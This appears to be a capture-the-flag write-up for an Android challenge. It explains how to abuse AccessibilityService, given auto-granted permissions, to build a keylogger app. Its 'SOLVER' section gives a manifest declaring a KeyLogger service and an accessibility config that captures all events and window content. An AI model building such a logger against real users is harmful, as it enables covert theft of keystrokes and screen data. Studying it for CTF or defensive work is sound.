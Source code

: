 There's no interesting part in the **AndroidManifest.xml** since our malicious app will be granted all permissions thats mean we can do whatever we want

For the solution we can build Malicious app that use **AccessibilityService** that will automatically turned on.

Accessibility services should only be used to assist users with disabilities in using Android devices and apps. **They run in the background and receive callbacks by the system when AccessibilityEvents are fired**. Such events denote some state transition in the user interface, for example, **the focus has changed, a button has been clicked, etc**. Such a service can optionally request the capability for querying the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods.

we can exploit this into a **Logger Application**

To make the Accessibility turned on we need permission of **`android.permission.WRITE_SECURE_SETTINGS`** if there no WRITE_SECURE_SETTINGS permission, user need turning on the Accessibility manually.

Since in the challenge told us that permission will be automatically granted that means we can turn the Acessibility for our application automatically

We need specify  `<service>` and `<uses-permission>` in our Malicious App

## SOLVER
AndroidManifest.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.bengskyexploit">
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.WRITE_SETTINGS" />
    <uses-permission android:name="android.permission.WRITE_SECURE_SETTINGS" />

    <application...>
        <activity...>
        <service
            android:name="com.example.bengskyexploit.KeyLogger"
            android:exported="true"
            android:label="@string/accessibility_service_label"
            android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
            <intent-filter>
                <action android:name="android.accessibilityservice.AccessibilityService" />
            </intent-filter>
            <meta-data
                android:name="android.accessibilityservice"
                android:resource="@xml/accessibility_service_config" />
        </service>
    </application>

</manifest>
```

xml/accessibility_service_config.xml
```xml
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeAllMask"
    android:accessibilityFeedbackType="feedbackAllMask"
    android:accessibilityFlags="flagDefault|flagIncludeNotImportantViews"
    android:canRetrieveWindowContent="true"
    android:notificationTimeout="100" />`
```
